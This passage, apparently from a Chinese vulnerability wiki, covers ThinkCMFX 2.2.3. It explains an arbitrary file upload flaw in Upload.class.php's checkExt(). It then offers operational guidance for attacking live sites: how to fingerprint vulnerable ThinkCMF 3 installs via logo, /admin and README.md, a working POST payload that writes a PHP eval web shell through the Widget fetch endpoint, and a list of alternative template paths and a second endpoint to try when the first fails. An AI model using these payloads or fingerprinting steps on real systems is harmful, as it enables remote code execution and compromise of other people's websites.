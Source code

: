 ![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId61.png)

路径：ThinkCMFX\_2.2.3\\simplewind\\Core\\Library\\Think\\Upload.class.php
方法：private function checkExt()

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId62.png)

因为这里返回了true所以实际上他并没有验证后缀
所以我们也就多了一个任意文件上传漏洞

#### 0x05 使用说明

前面说了，thinkcmf
并没有死，并且有3版本与5版本这里提供一些方法，帮助你们辨别哪一些是可以日的，那一些事不行的。

##### 1，看logo 3的logo是黄色的例如下图

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId65.jpg)

##### 2，在网站url 后面输入 admin

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId67.png)

如果页面是蓝色的表示是3的，可日穿之

##### 3，查看 README.md

在网站url后面输入README.md

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId69.jpg)

另外还有一个说明，你在实际操作的过程中，可能会遇到他一直报这个错

    url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
    post:
    templateFile=/../public/index
    prefix=''
    content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php>

![](/Users/aresx/Documents/VulWiki/.resource/THINKCMFX_2.2.3漏洞合集/media/rId70.jpg)

请放心这并不是说明漏洞不可使用，而是说，这个模版不存在，你可以换一个html即可

    例如：
    /../public/index
    /../public/exception
    /../data/index
    /../data/runtime/index
    /../plugins/Mobileverify/View/admin_index
    /../plugins/Mobileverify/View/index
    /../plugins/Mobileverify/View/widget
    /../plugins/Demo/View/admin_index
    /../plugins/Demo/View/index
    /../plugins/Demo/View/widget
    /../application/Install/View/Public/footer
    /../application/Install/View/Public/head
    /../application/Install/View/Public/header
    /../application/Common/index
    /../application/Portal/Lang/en-us/index
    /../application/Api/Lang/en-us/index
    /../application/Api/Lang/zh-cn/index
    /../application/Comment/Lang/en-us/index
    /../application/Comment/Lang/zh-cn/index
    url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
    post:
    templateFile=/../../../public/index
    prefix=''